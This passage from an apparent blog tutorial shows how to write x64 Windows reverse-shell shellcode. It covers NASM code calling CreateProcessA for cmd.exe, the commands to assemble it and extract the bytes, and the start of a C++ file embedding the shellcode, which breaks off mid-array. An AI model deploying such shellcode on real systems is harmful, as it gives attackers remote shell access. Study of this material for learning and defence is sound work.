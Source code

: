 ```nasm
    push rax                    ; hStdInput = NULL
    push rax                    ; hStdOutput = NULL
    push rax                    ; hStdError = NULL
    push rax                    ; dwCreationFlags
    mov r8, rax                 ; lpThreadAttributes            
    mov r9, rax                 ; lpProcessAttributes           
    mov rdx, rcx                ; lpCommandLine = "cmd.exe" 
    mov rcx, rax                ; lpApplicationName              
    call r14                    ; Call CreateProcessA
    ; Clean exit
    xor rcx, rcx                ; move 0 into RCX = 1st parameter
    call rbx                    ; Call ExitProcess
```

First off, yea...it's daunting right?  Man this part took me forever to wrap my head around it.  Let's start with the api:

```c++
BOOL CreateProcessA(
  [in, optional]      LPCSTR                lpApplicationName,
  [in, out, optional] LPSTR                 lpCommandLine,
  [in, optional]      LPSECURITY_ATTRIBUTES lpProcessAttributes,
  [in, optional]      LPSECURITY_ATTRIBUTES lpThreadAttributes,
  [in]                BOOL                  bInheritHandles,
  [in]                DWORD                 dwCreationFlags,
  [in, optional]      LPVOID                lpEnvironment,
  [in, optional]      LPCSTR                lpCurrentDirectory,
  [in]                LPSTARTUPINFOA        lpStartupInfo,
  [out]               LPPROCESS_INFORMATION lpProcessInformation
);
```

I covered the **STARTUPINFOA** in the last post, so I'm not going to go into great detail on that today.  As for **CreateProcessA**, I've tried to add comments throughout so you can see how we're pushing values to the required parameters and moving them onto the stack.  I can't go into greater detail at the moment as I need to wrap this up, but If you have questions don't hesitate to reach out.

Okay, let's compile this monster, grab our shellcode, and get ourselves a reverse shell shall we? 😄

**nasm -fwin64 asmsock2.asm**

**for i in $(objdump -D asmsock2.obj \| grep "^ " \| cut -f2); do echo -n "\x$i" ; done**

**Include the generated shellcode in our c++ program.  And yes I realize it's large.  Remember, this was for learning purposes 😄**

**I'll trim the shellcode someday using more function lookup loops if I decide to do an advanced x64 assembly course.  I don't have the bandwidth for that atm lol!**

```c++
#include <windows.h>
#include <iostream>

// Shellcode (as given, formatted for clarity)
unsigned char shellcode[] =
"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41\x60\x48\x8b\x40\x18\x48\x8b\x70\x10\x48\x8b"
"\x36\x48\x8b\x36\x48\x8b\x5e\x30\x49\x89\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48"
"\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x44\x8b\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4c\x89\xd1"
"\x48\xb8\x64\x64\x72\x65\x73\x73\x90\x90\x48\xc1\xe0\x10\x48\xc1\xe8\x10\x50\x48\xb8\x47\x65\x74\x50\x72"
"\x6f\x63\x41\x50\x48\x89\xe0\x67\xe3\x20\x31\xdb\x41\x8b\x1c\x8b\x4c\x01\xc3\x48\xff\xc9\x4c\x8b\x08\x4c"
"\x39\x0b\x75\xe9\x44\x8b\x48\x08\x44\x39\x4b\x08\x74\x03\x75\xdd\xcc\x51\x41\x5f\x49\xff\xc7\x4d\x31\xdb"
```